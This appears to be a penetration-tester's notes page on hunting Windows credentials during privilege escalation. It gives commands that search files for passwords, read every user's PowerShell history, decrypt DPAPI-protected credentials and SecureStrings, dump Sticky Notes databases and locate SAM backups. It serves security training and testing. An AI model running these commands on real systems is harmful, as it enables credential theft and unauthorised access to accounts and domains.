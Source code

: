 ```yaml
---
layout: default
---
```

>> [cheat Sheet](https://swisskyrepo.github.io/InternalAllTheThings/redteam/escalation/windows-privilege-escalation/)

## Credential Theft

We may find credentials during our privilege escalation enumeration that can lead directly to local admin access, grant us a foothold into the Active Directory domain environment, or even be used to escalate privileges within the domain

### Credential Hunting

#### **Application Configuration Files**

##### Searching for Files

```
PS C:\> findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml
```
>> Sensitive IIS information such as credentials may be stored in a web.config file. For the default IIS website, this could be located at C:\inetpub\wwwroot\web.config, but there may be multiple versions of this file in different locations, which we can search for recursively

#### **Dictionary Files**

Sensitive information such as passwords may be entered in an email client or a browser-based application, which underlines any words it doesn't recognize. The user may add these words to their dictionary to avoid the distracting red underline

```
PS C:\> gc 'C:\Users\abc\AppData\Local\Google\Chrome\User Data\Default\Custom Dictionary.txt' | Select-String password
```

#### **Unattended Installation Files**

Unattended installation files may define auto-logon settings or additional accounts to be created as part of the installation. Passwords in the unattend.xml are stored in plaintext or base64 encoded

```
Unattend.xml

<?xml version="1.0" encoding="utf-8"?>
<unattend xmlns="urn:schemas-microsoft-com:unattend">
    <settings pass="specialize">
        <component name="Microsoft-Windows-Shell-Setup" processorArchitecture="amd64" publicKeyToken="31bf3856ad364e35" language="neutral" versionScope="nonSxS" xmlns:wcm="http://schemas.microsoft.com/WMIConfig/2002/State" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance">
            <AutoLogon>
                <Password>
                    <Value>local_4dmin_p@ss</Value>
                    <PlainText>true</PlainText>
                </Password>
                <Enabled>true</Enabled>
                <LogonCount>2</LogonCount>
                <Username>Administrator</Username>
            </AutoLogon>
            <ComputerName>*</ComputerName>
        </component>
    </settings>
```

#### **PowerShell History File**

```
PS C:\> (Get-PSReadLineOption).HistorySavePath

PS C:\> gc (Get-PSReadLineOption).HistorySavePath
```
We can also use this one-liner to retrieve the contents of all Powershell history files that we can access as our current user

```
PS C:\> foreach($user in ((ls C:\users).fullname)){cat "$user\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt" -ErrorAction SilentlyContinue}
```

#### **PowerShell Credentials**

PowerShell credentials are often used for scripting and automation tasks as a way to store encrypted credentials conveniently. The credentials are protected using DPAPI, which typically means they can only be decrypted by the same user on the same computer they were created on.

##### Decrypting Powershell Credentials

```
PS C:\> $credential = Import-Clixml -Path 'C:\scripts\pass.xml'
PS C:\> $credential.GetNetworkCredential().username
PS C:\> $credential.GetNetworkCredential().password
```

##### Decrypting Secure String Pass
```
PS C:\> $pw = Get-Content .creds.txt | ConvertTo-SecureString
PS C:\> $bstr = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($pw)
PS C:\> $UnsecurePassword = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($bstr)
PS C:\> $UnsecurePassword
```
### Other Files

There are many other types of files that we may find on a local system or on network share drives that may contain credentials or additional information that can be used to escalate privileges. In an Active Directory environment, we can use a tool such as [Snaffler](https://github.com/SnaffCon/Snaffler) to crawl network share drives for interesting file extensions such as .kdbx, .vmdk, .vdhx, .ppk, etc

#### **Manually Searching the File System for Credentials**

```
--- Example 1 ---

C:\> cd c:\Users\abc\Documents & findstr /SI /M "password" *.xml *.ini *.txt

--- Example 2 ---

C:\> findstr /si password *.xml *.ini *.txt *.config

--- Example 3 ---

C:\> findstr /spin "password" *.*
```

##### Search for File Extensions

```
C:\> dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*

C:\> where /R C:\ *.config

PS C:\> Get-ChildItem C:\ -Recurse -Include *.rdp, *.config, *.vnc, *.cred -ErrorAction Ignore
```

##### Search File Contents with PowerShell

```
PS C:\> select-string -Path C:\Users\abc\Documents\*.txt -Pattern password
```

#### **Sticky Notes Passwords**

People often use the StickyNotes app on Windows workstations to save passwords and other information, not realizing it is a database file. This file is located at **C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite** and is always worth searching for and examining

##### Looking for StickyNotes DB Files

```
PS C:\> ls
 
 
    Directory: C:\Users\abc\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState
 
 
Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         5/25/2021  11:59 AM          20480 15cbbc93e90a4d56bf8d9a29305b8981.storage.session
-a----         5/25/2021  11:59 AM            982 Ecs.dat
-a----         5/25/2021  11:59 AM           4096 plum.sqlite
-a----         5/25/2021  11:59 AM          32768 plum.sqlite-shm
-a----         5/25/2021  12:00 PM         197792 plum.sqlite-wal
```

##### Viewing Sticky Notes Data Using PowerShell

This can also be done with PowerShell using the [PSSQLite module](https://github.com/RamblingCookieMonster/PSSQLite)

```
PS C:\> Set-ExecutionPolicy Bypass -Scope Process
PS C:\> cd .\PSSQLite\
PS C:\> Import-Module .\PSSQLite.psd1
PS C:\> $db = 'C:\Users\abc\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite'
PS C:\> Invoke-SqliteQuery -Database $db -Query "SELECT Text FROM Note" | ft -wrap
```
>> Strings Can also be used depending on the size of the database

#### **Other Files of Interest**

#### Other Interesting Files

```
%SYSTEMDRIVE%\pagefile.sys
%WINDIR%\debug\NetSetup.log
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software, %WINDIR%\repair\security
%WINDIR%\iis6.log
%WINDIR%\system32\config\AppEvent.Evt
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
%WINDIR%\system32\CCM\logs\*.log
%USERPROFILE%\ntuser.dat
%USERPROFILE%\LocalS~1\Tempor~1\Content.IE5\index.dat
%WINDIR%\System32\drivers\etc\hosts
C:\ProgramData\Configs\*
C:\Program Files\Windows PowerShell\*
```

